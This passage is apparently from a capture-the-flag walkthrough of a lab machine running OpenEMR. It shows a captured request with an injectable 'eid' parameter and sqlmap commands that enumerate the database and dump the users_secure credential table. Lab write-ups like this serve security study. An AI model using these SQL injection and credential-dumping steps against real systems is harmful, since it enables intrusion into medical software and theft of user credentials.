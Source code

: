 The result means that the **"eid"** parameter might be injectable. We must capture the request sent with **`Burp Suite`** and use it to test SQL injections with **`sqlmap`**. The captured request is :

~~~
GET /portal/add_edit_event_user.php?eid=1%27 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: OpenEMR=dj35b2jbhudt3frlib1fjd7jku; PHPSESSID=qit8qsffamvgj8cpkhf3dhue15
Upgrade-Insecure-Requests: 1
~~~

We save it in a file **"openemr.req"** and use it with SQLmap. You can perform a whole sqlmap sequences of injections to get first the database name, then the tables, and finally the credentials:

~~~
1. Database:   
   root@kali:~# sqlmap -r openemr.req --dbs
2. Tables:
   root@kali:~# sqlmap -r openemr.req -D openemr --tables
3.Credentials
   root@kali:~# sqlmap -r openemr.req -D openemr -T users_secure --dump
~~~

Actually, we found in [https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69), that the table **`users_secure`** contains the credentials. So you only need to run this one:

![sqlmap1.png](images/sqlmap1.png)